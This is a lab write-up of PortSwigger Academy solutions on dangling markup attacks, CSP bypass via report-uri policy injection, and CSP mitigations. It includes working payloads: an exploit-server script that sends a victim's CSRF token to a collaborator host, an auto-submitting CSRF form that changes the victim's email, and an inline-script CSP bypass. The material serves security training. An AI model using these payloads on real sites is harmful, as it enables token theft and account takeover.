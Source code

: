 ### Lab: Reflected XSS protected by very strict CSP, with dangling markup attack
After we've logged in, we hit the endpoint:
```
https://0a2d006004c50adc80a335c400d10074.web-security-academy.net/my-account?id=wiener
```
On the page that we get back, we have the following:
```bash
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required="" type="email" name="email" value="">
    <input required="" type="hidden" name="csrf" value="v7Xx9rRq52EkoS8VjyKPWcFALllqY5zc">
    <button class="button" type="submit"> Update email </button>
</form>
```
It turns out if we add `&email=22` to the url, we see that it is reflected in the value of the email input:
```
https://0a2d006004c50adc80a335c400d10074.web-security-academy.net/my-account?id=wiener&email=22
```
```bash
<input required="" type="email" name="email" value="22">
```
With that knowledge we can try to break out of that email input element, and we try to inject e.g. an `<img>` element. 

We use the following payload: `"><img src="https://www.google.com/someimage"` but we have to **url encode** it.
```
https://0a2d006004c50adc80a335c400d10074.web-security-academy.net/my-account?id=wiener&email=%22%3e%3c%69%6d%67%20%73%72%63%3d%22%68%74%74%70%73%3a%2f%2f%77%77%77%2e%67%6f%6f%67%6c%65%2e%63%6f%6d%2f%73%6f%6d%65%69%6d%61%67%65%22
```
It worked. A new img element appeared on the page.
We also got the following err: `Refused to load the image 'https://www.google.com/someimage' because it violates the following Content Security Policy directive: "img-src 'self'"`

Because of the csp we can't really load external images. But we can anyway expect user to click on some button that we inject. So we try the following (we have to url encode, but here we're not doing it for the sake of readability):
```bash
...&email="><a href="http://localhost:3000">Click me</a><base target=haha>
```
`<base target=haha>` here plays an important role. When user clicks on "Click me" they are redirected to `http://localhost:3000`. (of course we can use malicious website instead of localhost) 
On malicious website (on localhost in our case) inside of dev tools when we write `window.name` we see `haha` returned. `haha` was specified as `target` in `<base target="haha">`

Now let's try dangling markup vulnerability:
It's important to remember what the initial page's html elements are:
```bash
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required="" type="email" name="email" value="">
    <input required="" type="hidden" name="csrf" value="v7Xx9rRq52EkoS8VjyKPWcFALllqY5zc">
    <button class="button" type="submit"> Update email </button>
</form>
```

So in the url we specify the following (of course url encoded version of it):
```bash
...&email="><a href="http://localhost:3000">Click me</a><base target='
```
And when we navigate to malicious website (`localhost` in this case) and in the console we type `window.name`, we then see the following:
```bash
'">\n <input required type="hidden" name="csrf" value="v7Xx9rRq52EkoS8VjyKPWcFALllqY5zc"><button class='
```
> Note: the technique above no longer works on port swigger academy, the lab has been updated. But the technique above is still important to understand, that's why it is described here

#### Working solution:
So this is what we have in the beginning:
```bash
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required="" type="email" name="email" value="">
    <input required="" type="hidden" name="csrf" value="v7Xx9rRq52EkoS8VjyKPWcFALllqY5zc">
    <button class="button" type="submit"> Update email </button>
</form>
```

Then on exploit server we'll have the following script (i.e. we close existing form and open a new one. New form is going to contain csrf input):
```bash
<script>
     window.location = 'https://0a2f00400490e2b598fea0a000260019.web-security-academy.net/my-account?email=any"></form><form name="myForm" action="https://od5uidti3zskabyg72f25lcrpiv9jz7o.oastify.com" method="GET"><button class="button" type="submit">Click</button'
</script>
```

That script above will change the page, so that now it includes 2 forms and 2 buttons:
```bash
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
</form>
<form name="myForm" action="https://od5uidti3zskabyg72f25lcrpiv9jz7o.oastify.com" method="GET"><button type="submit" class="button">Click</button">
    <input required type="hidden" name="csrf" value="oEKUbXmXgNrmUZMcaY4uw8vAA3uKZRSt">
    <button class='button' type='submit'> Update email </button>
</form>
```
When user clicks on "Click" button - csrf token is sent to the burp collab server
Later we construct another attack to change the user's email with the csrf token that we got
Here's csrf:
```bash
<form action="https://0a2f00400490e2b598fea0a000260019.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="hacker@evil-user.net" />
  <input type="hidden" name="csrf" value="Ip2utiucfdIVGJoO1rUm14DVnEvVOvJy" />
  <input type="submit" value="Submit request" />
</form>
<script>
  history.pushState('', '', '/');
  document.forms[0].submit();
</script>
```

## Mitigating dangling markup attacks using CSP
The following directive will only allow images to be loaded from the same origin as the page itself:
```
img-src 'self'
```
The following directive will only allow images to be loaded from a specific domain:
```
img-src https://images.normal-website.com
```
Note that these policies will prevent some dangling markup exploits, because an easy way to capture data with no user interaction is using an img tag. However, it will not prevent other exploits, such as those that inject an anchor tag with a dangling href attribute.

## Bypassing CSP with policy injection
### Lab: Reflected XSS protected by CSP, with CSP bypass
There's an input for the website's search. 
Whatever we type into the input is reflected into the DOM (i.e. we've got reflected XSS there).

However when we try to inject into the search input
```bash
<img src=1 onerror=alert(1)>
```
we see that the payload is reflected, but the CSP prevents the inline script from executing

So there's an endpoint:
```
https://0a1200820303ea24811061a4003f001c.web-security-academy.net/?search=vv
```
In the response there's:
```
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
```
We're interested in `report-uri /csp-report?token=`

You may encounter a website that reflects input into the actual policy, most likely in a report-uri directive. If the site reflects a parameter that you can control, you can inject a semicolon to add your own CSP directives. Usually, this report-uri directive is the final one in the list. This means you will need to overwrite existing directives in order to exploit this vulnerability and bypass the policy.

It turns out that if we modify the endpoint above, i.e. add additional query parameter with the name `token` then the value of it will be reflected in the response CSP header
Req:
```
https://0a1200820303ea24811061a4003f001c.web-security-academy.net/?search=vv&token=ff
```
Res:
```
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=ff
```

Normally, it's not possible to overwrite an existing script-src directive. However, Chrome recently introduced the `script-src-elem` directive, which allows you to control script elements, but not events. Crucially, this new directive allows you to overwrite existing script-src directives

Therefore to execute inline script we do the following:
```
https://0a1200820303ea24811061a4003f001c.web-security-academy.net/?search=<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'
```
We actually need to url encode it:
```
https://0a1200820303ea24811061a4003f001c.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```

## Protecting against clickjacking using CSP
The following directive will only allow the page to be framed by other pages from the same origin:
```bash
frame-ancestors 'self'
```
The following directive will prevent framing altogether:
```bash
frame-ancestors 'none'
```
Using content security policy to prevent clickjacking is more flexible than using the X-Frame-Options header because you can specify multiple domains and use wildcards. For example:
```bash
frame-ancestors 'self' https://normal-website.com https://*.robust-website.com
```
CSP also validates each frame in the parent frame hierarchy, whereas X-Frame-Options only validates the top-level frame.

Using CSP to protect against clickjacking attacks is recommended. You can also combine this with the X-Frame-Options header to provide protection on older browsers that don't support CSP, such as Internet Explorer.

